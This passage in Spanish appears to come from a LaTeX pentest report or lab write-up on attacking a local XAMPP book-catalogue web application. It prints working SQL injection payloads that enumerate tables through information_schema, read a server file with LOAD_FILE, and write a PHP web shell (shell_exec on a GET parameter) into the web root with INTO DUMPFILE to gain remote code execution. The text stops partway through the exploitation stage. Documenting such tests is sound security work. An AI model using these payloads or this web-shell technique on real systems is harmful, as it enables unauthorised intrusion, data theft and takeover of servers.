	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen1.png}
    \caption{ Prueba inyección SQL }
\end{figure}

Acto seguido, intentamos verificar si es posible extraer las tablas por medio de una consulta. Normalmente, si el usuario no tuviese permisos, esto no podría ser posible.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias; -- "
\end{minted}
    
\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen3.png}
    \caption{ Inyección SQL - Exploración }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen2.png}
    \caption{ Tablas de interés }
\end{figure}

Dado que al parecer el usuario no tiene restricciones mayores, procedemos a verificar si es posible leer archivos directamente. Para esto, revisamos un archivo genérico de la instalación de XAMPP, \texttt{web.config}.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, LOAD_FILE('C:/xampp/htdocs/enwi/web.config') as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias;  -- 
\end{minted}

Habiendo logrado con éxito leer un documento, comprobamos que no hay problemas para poder manipular archivos. Acto seguido, inyectamos un archivo sobre el servidor, el cual nos permitirá ejecutar ataques de ejecución remota.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
Libro de prueba 3' union SELECT 1,2,3,4, '\n<?php echo shell_exec($_GET[''cmd'']); ?>' INTO dumpfile 'C:/xampp/htdocs/enwi/test.php' -- 
\end{minted}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen4.png}
    \caption{ Inyección de RCE }
\end{figure}

Ahora, para la etapa de explotación, verificamos si el archivo es ejecutable desde la máquina. En el caso de máquinas con windows, al no haber separación directa de los permisos de los usuarios, el mismo usuario que crea un archivo que levanta el servidor MySQL, también genera archivos que son ejecutables por el usuario que levanta PHP, porque son el mismo.

Comenzamos listando los directorios, entre ellos, utilizamos el directorio que apareció en el primer error mostrado.

\begin{figure}
	\centering
